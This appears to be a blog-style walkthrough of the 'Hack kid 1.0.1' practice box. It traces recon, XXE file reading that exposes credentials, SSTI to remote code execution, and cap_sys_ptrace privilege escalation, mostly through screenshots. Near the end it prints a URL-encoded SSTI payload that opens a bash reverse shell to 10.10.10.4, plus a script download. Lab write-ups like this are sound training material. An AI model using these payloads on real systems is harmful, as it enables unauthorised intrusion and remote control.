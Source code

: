 ```yaml
---
title: "Pentesting Diary - Hack with Me: [1] Hack kid 1.0.1"
published: 2022-02-04   
description: ''
image: ''
tags: [Writeup,"Pentesting Diary: Hack with Me"]
category: 'Cybersecurity'
draft: false 
lang: 'en'
---
```

# Hack kid 1.0.1 |


Scan network to discover the pentest box.
Using Nmap or netdiscovery:

![Untitled](Untitled.png)

Here the pentest box’s IP is : 10.10.10.1
We use Nmap to scan port & service:

> nmap -sV 10.10.10.1
> 

Port 80 and 9999 open a web server

![Untitled](Untitled%201.png)

Map IP to local DNS by editing hosts file: vim /etc/hosts

![Untitled](Untitled%202.png)

 Review source web on port 80:

![Untitled](Untitled%203.png)

Hint for using Get parameter “page_no”.

![Untitled](Untitled%204.png)

 

![Untitled](Untitled%205.png)

I use Burpsuit to Bruteforce the id then we got something at 21(I've change to use Wfuzz instead next time):

![Untitled](Untitled%206.png)

Map IP to local DNS hackers.blackhat.local by editing file hosts again.

![Untitled](Untitled%207.png)

![Untitled](Untitled%208.png)

Using Dirsearch to find hidden directory but nothing is useful.

![Untitled](Untitled%209.png)

The text is Uppercase Dig so I think it is a hint. I’ve to use dig tool to check all DNS records.

![Untitled](Untitled%2010.png)

Got a new URL.

![Untitled](Untitled%2011.png)

![Untitled](Untitled%2012.png)

Let's trying to find something useful here.
I open this URL on Burpsuit and trying to check if it has XXE vulns

![Untitled](Untitled%2013.png)

 

Yeah, we got something here.

![Untitled](Untitled%2014.png)

Let's try to read some common files such as .bash_history,.bashrc.

![Untitled](Untitled%2015.png)

We got a username and password on .bashrc.

> username="saket"
password="Saket!#$%@!!"
> 

Use this info to login to web server on port 9999

![Untitled](Untitled%2016.png)

![Untitled](Untitled%2017.png)

I’ve found out that this server has SSTI therefore I was tried to RCE it.

![Untitled](Untitled%2018.png)

![Untitled](Untitled%2019.png)

Yeah!?Now we’ve RCE it. Let go for PrivilegeEsc

Use [lse.sh](http://lse.sh/) to check over the system. I’ve to use cap_sys_ptrace vuln to Privilege.

![Untitled](Untitled%2020.png)

use cap_sys-ptrace vuln to Privilege

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

![Untitled](Untitled%2021.png)

Inject payload →  get root and enjoy the winning moment :<

RevShell payload:
```
%7b%25%20%69%6d%70%6f%72%74%20%6f%73%20%25%7d%7b%7b%6f%73%2e%73%79%73%74%65%6d%28%27%62%61%73%68%20%2d%63%20%22%30%3c%26%31%39%36%3b%65%78%65%63%20%31%39%36%3c%3e%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%30%2e%34%2f%31%32%33%34%3b%20%73%68%20%3c%26%31%39%36%20%3e%26%31%39%36%20%32%3e%26%31%39%36%22%27%29%7d%7d
```
[https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh)

wget "[https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh)" -O [lse.sh](http://lse.sh/);chmod 700 [lse.sh](http://lse.sh/)

cap_sys-ptrace : [https://pastebin.com/raw/5uT7vGPP](https://pastebin.com/raw/5uT7vGPP)

Wfuzz: 

- -w wordlist
- -u url
- -hh x: find which is not x
- -c colorful

PS: Lần sau sẽ dùng wfuzz để bruteforce thay vì dùng burpsuite.
